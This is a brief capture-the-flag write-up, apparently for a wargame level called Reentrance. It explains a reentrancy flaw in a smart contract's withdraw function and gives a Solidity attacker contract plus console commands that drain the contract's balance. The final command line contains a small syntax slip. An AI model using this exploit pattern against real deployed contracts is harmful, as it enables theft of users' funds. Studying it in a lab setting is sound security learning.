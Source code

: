 `withdraw` checks for balance, then calls sender and finally updates the balance. this can be hacked using another contract that re-calls the original contract when receives the call. since the balance update happens later, it can be used to withdraw all the founds in the contract.

```
contract Reentrance {
    function withdraw(uint) public {}
}

contract HackReentrance {
    Reentrance reentrance;

    constructor(address instance) {
        reentrance = Reentrance(instance);
    }

    function withdraw() public {
        address payable sender = payable(msg.sender);
        sender.transfer(address(this).balance);
    }

    receive() external payable {
        if (address(reentrance).balance > 0) {
            reentrance.withdraw(0.1 ether);
        }
    }
}
```

```
contract.donate('<contract address>', { value: toWei('0.1') });
sendTransaction({from: player, to: '<contract address>', value: 1);
```
